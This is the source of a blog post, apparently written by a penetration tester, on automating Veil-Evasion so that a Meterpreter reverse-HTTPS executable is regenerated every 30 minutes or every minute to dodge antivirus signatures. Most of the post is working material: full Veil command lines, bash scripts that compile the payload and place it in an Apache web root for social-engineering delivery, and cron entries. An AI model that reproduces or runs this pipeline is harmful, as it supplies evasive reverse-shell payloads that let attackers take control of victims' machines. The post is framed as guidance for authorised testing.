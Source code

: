 ```yaml
---
layout: post
title: Fresh Veil
subtitle: Automatically Generating Payloads
summary: Keep your Veil payloads fresh to avoid getting caught by AV.
featuredimage: /assets/freshveil1.png
tags:
- veil
- payloads
---
```


Veil is awesome - it makes payload generation easy and supports a wide variety of payloads with new ones being dropped pretty often.

Getting caught by AV during a test is not awesome.

Being caught because the target’s AV had a signature hit on you is even worse. Because YOU (the tester) messed up. You didn’t take the extra few minutes to regenerate a payload. I’ve been there and I’m sure you’ve been there. It sucks and you feel silly.

The solution? Use Veil’s command line options and cron to regenerate payloads every 30 minutes. 

**Server Build**

This is the basic build. Let’s assume that you have a server that you catch social engineering payloads on. Static IP (or domain).

For setup, make a directory called `/root/payload_temp` and use git to clone Veil-Evasion into that folder. Run through the setup script in Veil-Evasion/setup. 

The `/root/payload_temp` directory is where we’ll generate the payload before we move it to our apache root.


Let’s take a look at Veil’s command line options:
![]({{site.url}}/assets/freshveil1.png){: height="400px"}


Using these options, you can generate any payload from within Veil from the command line.


For the example code below we’ll make a `python/meterpreter/rev_https_contained` payload:

```python
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=X.X.X.X LPORT=443 --overwrite
```

The `--overwrite` is necessary here to ensure that the new payloads replace the old ones. You will of course need to replace the X.X.X.X with your WAN IP or local IP if running it within a private network.

With the Veil command figured out, create a bash script called `/payload_gen.sh` to generate the payload and move it to the apache root:

```bash
#!/bin/bash
cd /root/payload_temp
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=X.X.X.X LPORT=443 -o /root/payload_temp/FreshPayload --overwrite
sleep 1
mv -f /root/veil-output/compiled/payload.exe /var/www/FreshPayload.exe
```

Now we’ll add this to the cron:

`crontab -e` will bring up the cron settings. In the first two blank lines enter:

```bash
10 * * * * /payload_gen.sh
40 * * * * /payload_gen.sh
```


This will make the script run twice an hour at the 10 and 40 minute marks. You can heavily customize the timing options using cron, but this is a basic implementation.


That’s it. Easy, right?

Good. Moving on…

**Variable IP Auto-Generation**

Chances are, you’re in and out of networks that you’re testing and it’s no fun to find a possible vector that needs a binary and then have to go through the whole process of generating the payload before you can test.


So `payload_gen2.sh` will pull the active eth0 IPv4 address and plug it into the same script:

```bash
#!/bin/bash
ADDY=$(ifconfig eth0 | awk '/inet addr/{print $2}' | awk -F':' '{print $2}')
cd /root/payload_temp
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=$ADDY LPORT=443 --overwrite
sleep 1
mv -f /root/veil-output/compiled/payload.exe /var/www/FreshPayload.exe
```


For the crontab on this payload, I personally have it regenerate every minute so I never need to think about whether I got a new IP since it generated. Edit crontab using `crontab -e` and place the following code at the bottom:
`* * * * * /payload_gen2.sh`


You could, of course, stack multiple payloads of different types (perhaps with some additional post-processing) in this script so you get a full, fresh set of all of the many payload types that Veil can generate. All ready for you in your Apache folder.

